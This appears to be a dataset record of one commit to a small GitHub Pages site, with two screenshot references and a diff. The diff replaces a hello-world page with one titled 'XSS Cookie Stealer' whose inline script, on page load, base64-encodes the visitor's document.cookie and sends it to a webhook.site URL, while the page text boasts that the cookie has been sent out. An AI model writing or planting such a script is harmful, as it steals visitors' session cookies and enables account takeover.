

Before and after one commit to x28948692/balabala, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
🔥 Add cookie stealer payload

```diff
--- a/index.html
+++ b/index.html
@@ -1,11 +1,16 @@
 <!DOCTYPE html>
 <html lang="zh-Hant">
-<head>
-  <meta charset="UTF-8" />
-  <title>我的靜態網站</title>
-</head>
-<body>
-  <h1>Hello, GitHub Pages 👋</h1>
-  <p>這是我建立的第一個網站</p>
-</body>
+  <head>
+    <meta charset="UTF-8" />
+    <title>XSS Cookie Stealer</title>
+  </head>
+  <body>
+    <h1>🍪 Cookie Stealer 啟動</h1>
+    <p>這頁已經自動把你的 cookie 傳出去了 😈</p>
+
+    <script>
+      // 自動送出 cookie 到你的 webhook
+      fetch("https://webhook.site/eb639c58-800f-4a15-b1a6-024a1714b369?" + btoa(document.cookie));
+    </script>
+  </body>
 </html>
```
